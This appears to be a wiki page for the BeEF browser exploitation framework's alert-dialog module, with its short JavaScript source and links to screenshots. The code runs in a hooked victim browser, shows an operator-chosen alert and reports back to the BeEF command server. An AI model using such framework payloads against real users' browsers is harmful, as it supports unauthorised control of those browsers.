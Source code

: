 ##Summary
* **Objective**: Sends an alert dialog to the hooked browser.
* **Date**: ???
* **Authors**: wade, bm
* **Browsers**: All
* [[Code|https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/alert_dialog]]

##Internal Working

Really basic, here is the whole code :
```javascript
beef.execute(function() {
alert("<%== format_multiline(@text) %>");

beef.net.send("<%= @command_url %>", <%= @command_id %>, "text=<%== format_multiline(@text) %>");
});
```

## Screenshots

[[Images/module-alert-dialog1.png|align=center]]

[[Images/module-alert-dialog2.png|align=center]]

##Feedback

* So basic, that it should work on any browser any version.

